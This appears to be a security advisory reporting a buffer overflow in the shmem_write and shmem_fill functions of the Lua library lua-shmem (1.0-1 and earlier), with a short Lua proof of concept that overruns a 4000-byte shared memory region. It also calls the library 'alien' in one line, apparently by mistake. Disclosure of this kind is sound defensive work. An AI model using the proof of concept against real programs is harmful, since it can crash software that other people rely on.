



## The third-party Lua library "lua-shmem" has a buffer overflow vulnerability.

Affected product: lua-shmem <= 1.0-1

### Product Information

project: https://luarocks.org/modules/engin33r/lua-shmem/1.0-1

source code: https://github.com/EngiN33R/lua-shmem

Lua-shmem is a Low-level Lua convenience wrapper for IPC shared memory functionality. Wraps calls to mmap/munmap to create and free shared memory, and memset/memcpy calls to write and clear the shared memory area.

### Vulnerability Description

buffer overflow in alien https://github.com/EngiN33R/lua-shmem/blob/master/src/shmem.c

vuln function: `shmem_write`，`shmem_fill`

The function does not check if the length of `data` exceeds the size of `shmem_ud->memory`. If the length of `data` is greater than the size of `shmem_ud->memory`, it will lead to a buffer overflow.



### Verify

When users utilize this library for memory operations, it may potentially lead to a buffer overflow vulnerability, thereby resulting in a denial-of-service condition in the program.

The following content is a typical case:

```
local shmem = require("shmem")
local mem = shmem.new(4000)
print("test")
mem:write(string.rep("A", 4100))
--mem:fill(string.rep("A", 4100))
print("test")
```



